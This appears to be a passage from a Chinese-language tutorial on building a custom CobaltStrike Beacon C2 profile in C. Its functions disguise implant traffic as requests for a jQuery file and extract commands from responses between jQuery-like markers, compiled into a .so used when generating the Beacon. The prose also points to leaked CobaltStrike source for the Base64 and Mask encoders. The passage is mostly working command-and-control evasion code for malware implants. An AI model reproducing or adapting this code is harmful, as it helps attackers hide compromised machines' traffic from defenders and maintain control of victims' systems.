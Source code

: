         id = cc2_rebind_http_post_send_param(id);  
        reqData = cc2_rebind_http_post_send_param(reqData);  
      
        char *postPayload = (char *) calloc(1, strlen(requestBody) + strlen(reqData) + 200);  
      
        sprintf(postPayload, requestBody, "jquery-3.3.2.min.js", id, strlen(reqData), reqData);  
        *outputData_len = strlen(postPayload);  
        *outputData = (char *) calloc(1, *outputData_len);  
      
        memcpy(*outputData, postPayload, *outputData_len);  
        free(postPayload);  
    }  
      
    void cc2_rebind_http_get_recv(char *rawData, long long rawData_len, char **outputData, long long *outputData_len) {  
        char *start = "return-1},P=\"\r";  
        char *end = "\".(o=t.documentElement";  
      
        long long payload_len = 0;  
        char *payload = find_payload(rawData, rawData_len, start, end, &payload_len);  
      
        *outputData = cc2_rebind_http_recv_param(payload);  
        *outputData_len = strlen(*outputData);  
    }  
      
    void cc2_rebind_http_post_recv(char *rawData, long long rawData_len, char **outputData, long long *outputData_len) {  
        char *start = "return-1},P=\"\r";  
        char *end = "\".(o=t.documentElement";  
      
        long long payload_len = 0;  
        char *payload = find_payload(rawData, rawData_len, start, end, &payload_len);  
      
        *outputData = cc2_rebind_http_recv_param(payload);  
        *outputData_len = strlen(*outputData);  
    }  
    

同样的编译成so文件，在生成Beacon时指定so文件。

![](https://gitee.com/fuli009/images/raw/master/public/20210805100049.png)

# 难点和疑问  

## 编码解码函数的实现思路

在编写c2profile.c文件的过程中，用到Base64、Mask的相关编码和解码函数。

但是在实际实践过程中会发现，从网上找到的c版Base64编码解码函数是不能直接套用的，同时Mask编码解码为CobaltStrike中自实现的相关函数。

查阅CobaltStrike文档会发现，对这些编码有进行相关描述，当时文档中是没有给出具体细节的。所以这里需要借助https://github.com/mai1zhi2/CobaltstrikeSource来查看具体的函数实现。

![](https://gitee.com/fuli009/images/raw/master/public/20210805100050.png)

只需要在CobaltStrike的源码中找到对应的函数实现，然后C代码照猫画虎的方式，最后再调试调试就可以实现了。  
